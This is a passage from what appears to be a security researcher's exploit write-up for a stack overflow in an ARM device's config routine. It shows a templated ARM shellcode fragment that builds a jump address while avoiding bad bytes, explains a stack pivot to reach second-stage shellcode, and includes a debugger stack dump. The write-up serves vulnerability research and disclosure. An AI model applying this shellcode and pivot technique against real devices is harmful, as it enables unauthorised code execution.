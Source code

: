 ```
mov r6, #%d; 
mov r6, r6, lsl #8; 
add r6, r6, #%d; 
mov r6, r6, lsl #8; 
add r6, r6, #%d;  
mov r6, r6, lsl #8; 
add r6, r6, #%d; 
mov pc, r6
""" % (q,w,e,r))


```

There is a high chance that the generated shellcode would not contain bad-bytes.

### Stack pivot

Having fixed the registers to allow us to safely return to the 0x9AC4 (config) sub-routine, we still have to figure out a way to trigger the **Stage 2** shellcode.

![](https://www.secforce.com/media/images/a54c.width-800.png)

If we attempt to exit before returning, the sub-routine must readjust the stack to its initial state (before the function call), so the program can continue with its normal flow. The epilogue will perform two instructions, that will move the stack pointer by hex 0x254 (readjust) and will pop the values from the stack into the R4-R11 registers, among with the most important one - program counter:

![](https://www.secforce.com/media/images/9ac4_epilogue.width-800.png)

We've noticed that after the overflow happens, there are heap pointers stored on the stack at multiple locations. One of which is particularly interesting:

```
0xcea062a0│+0x0250: 0x00000000
0xcea062a4│+0x0254: 0x00000073 ("s"?)
0xcea062a8│+0x0258: 0x00000000
0xcea062ac│+0x025c: 0x00000020
0xcea062b0│+0x0260: 0x00000000
0xcea062b4│+0x0264: 0x00000001
0xcea062b8│+0x0268: 0x00000013
0xcea062bc│+0x026c: 0x00010000
0xcea062c0│+0x0270: 0x00000003
0xcea062c4│+0x0274: 0x00000008
0xcea062c8│+0x0278: 0x00000008
0xcea062cc│+0x027c: 0x00000008
0xcea062d0│+0x0280: 0x00000008
0xcea062d4│+0x0284: 0x00000008
0xcea062d8│+0x0288: 0x00000008
0xcea062dc│+0x028c: 0x00000008
0xcea062e0│+0x0290: 0x00000008
0xcea062e4│+0x0294: 0xcea06430  →  0x00016170  →  0x00000000
0xcea062e8│+0x0298: 0x00016170  →  0x00000000
0xcea062ec│+0x029c: 0x00000000
0xcea062f0│+0x02a0: 0x00000000


```
